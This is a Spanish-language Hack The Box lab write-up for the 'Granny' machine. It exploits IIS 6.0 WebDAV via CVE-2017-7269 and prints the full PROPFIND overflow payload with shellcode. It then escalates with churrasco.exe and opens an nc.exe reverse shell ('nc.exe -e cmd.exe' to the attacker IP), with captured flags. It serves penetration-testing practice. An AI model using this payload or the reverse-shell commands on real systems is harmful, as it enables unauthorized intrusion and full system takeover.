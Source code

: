 ```yaml
---
layout: single
title: HTB-Granny
excerpt: "WriteUp de la máquina HTB Granny -- Type: Easy"
date: 2022-04-01
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/granny/granny.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/granny/granny.png"></centre>


[Maquina]() 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.15 
```

```bash
Nmap scan report for 10.10.10.15
Host is up (0.067s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Fri, 01 Apr 2022 08:03:03 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Vemos que tiene el puerto **80 (http)** abierto y la versión del servidor es **Microsoft IIS httpd 6.0** puede ser que sea vulnerable a **CVE-2017-7269**



## Explotación
Nos descargamos el exploit el cual no dará una reverse shell por la cual tendremos que tener un puerto a la escucha con netcat.

[CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

```bash
nc -lvp 443
```


Le damos permisos de ejecución al exploit y lo ejecutamos con nuesta ip y por el puerto que vamos a tener a la escucha.

```bash
python2 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.9 443
```

```txt
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Y por el netcat tendremos la ReverseShell.

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.15] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


El usuario que obtenemos es **nt authority\network service** y no de **system** y por lo tanto tendremos que elevar privilegios.

Podemos ejecutar el comando **systeminfo** en la máquina víctima para pasarlo por el [wes.py](https://github.com/bitsadmin/wesng/blob/master/wes.py) (python script para buscar exploits de windows)

```powershell
C:\Documents and Settings>systeminfo
```

```bash
python2 wes.py systeminfo.txt --exploits-only -i "Elevation of Privilege"
```

Entre todas las vluns que encontramos podemos ver la **CVE-2008-1436** que utiliza el exploit [churrasco.exe](https://github.com/Re4son/Churrasco) para elevar privilegios.

```txt
Date: 20090414
CVE: CVE-2008-1436
KB: KB952004
Title: Vulnerabilities in Windows Could Allow Elevation of Privilege
Affected product: Microsoft Windows Server 2003 x64 Edition 
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/6705
````

Nos descargamos el [churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe) y el [netcat.exe](https://github.com/int0x33/nc.exe) y los servimos con un servidor smb para poder pasarselos a la máquina windows.

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
wget https://github.com/int0x33/nc.exe/blob/master/nc.exe

impacket-smbserver share $(pwd) -smb2support
```

Los descargamos en la carpeta Temp:

```powershell
C:\WINDOWS\Temp>copy \\10.10.14.9\share\churrasco.exe
copy \\10.10.14.9\share\ch.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.9\share\nc.exe
copy \\10.10.14.9\share\nc.exe
        1 file(s) copied.

C:\WINDOWS\Temp>
```

Y nos podemos en escucha con netcat por un puerto diferente al usado.

```bash
nc -lvp 444
```

Y ya podemos ejecutar el comando para obtener una reverse shell con **churrasco.exe**

```powershell
churrasco.exe "nc.exe -e cmd.exe 10.10.14.9 444"
```

```powershell
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.15] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

Flag **User Lakis**:
```powershell
C:\Documents and Settings\Lakis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Lakis\Desktop

04/12/2017  10:19 PM    <DIR>          .
04/12/2017  10:19 PM    <DIR>          ..
04/12/2017  10:20 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,320,992,768 bytes free

C:\Documents and Settings\Lakis\Desktop>

```

Flag **nt authority\system**:
```powershell
C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  05:28 PM    <DIR>          .
04/12/2017  05:28 PM    <DIR>          ..
04/12/2017  10:17 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,320,980,480 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
C:\Documents and Settings\Administrator\Desktop>
```